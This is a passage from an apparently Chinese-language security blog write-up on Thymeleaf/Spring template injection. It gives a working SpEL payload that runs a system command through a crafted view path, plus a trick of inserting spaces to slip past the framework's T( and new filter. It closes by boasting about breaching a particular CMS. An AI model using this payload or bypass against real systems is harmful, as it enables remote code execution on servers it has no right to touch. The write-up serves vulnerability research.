requestURI.contains(vn));
```

当然还有其他的绕过方法，是直接从

```
public String getViewName(HttpServletRequest request) {
    String path = ServletRequestPathUtils.getCachedPathValue(request);
    return (this.prefix + transformPath(path) + this.suffix);
}
```

getCachedPathValue取的url值是处理过的，当然我也没有跟踪到代码在哪里，可以使用;

`doc;/__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x`



当然也可以fuzz一手



#### 绕过containsSpELInstantiationOrStatic

这个上面也分析了也就是不能有new，不能出现T(

只需要在中间加一些不影响表达式执行的东西，最典型的就是空格



## 最后

妈妈再也不用担心我打不穿某依cms的系统了

参考<https://github.com/thymeleaf/thymeleaf-spring/issues/256>
